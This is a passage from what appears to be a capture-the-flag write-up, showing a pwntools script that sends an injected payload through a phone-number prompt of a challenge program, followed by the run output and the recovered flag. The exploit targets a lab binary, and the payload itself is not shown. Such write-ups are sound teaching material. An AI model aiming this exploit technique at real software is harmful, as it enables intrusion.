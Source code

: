 ```python

p = process(["runtime", "program.prg"])

p.sendlineafter(b"3. exit\n", b"1")
p.sendlineafter(b"enter first name: ", b"")
p.sendlineafter(b"enter last name: ", b"")
p.sendlineafter(b"enter phone: ", payload)
print(p.readall())
```

Running this, will give us the flag.

```bash
$ python solve.py
[+] Opening connection to localhost on port 54321: Done
[+] Receiving all data: Done (85B)
[*] Closed connection to localhost port 54321
b'\x00INTIGRITI{1nj3c71n6_5h3llc0d3_1n_7h3_805}\x00INTIGRITI{1nj3c71n6_5h3llc0d3_1n_7h3_805}\x00'
```

Flag `INTIGRITI{1nj3c71n6_5h3llc0d3_1n_7h3_805}`
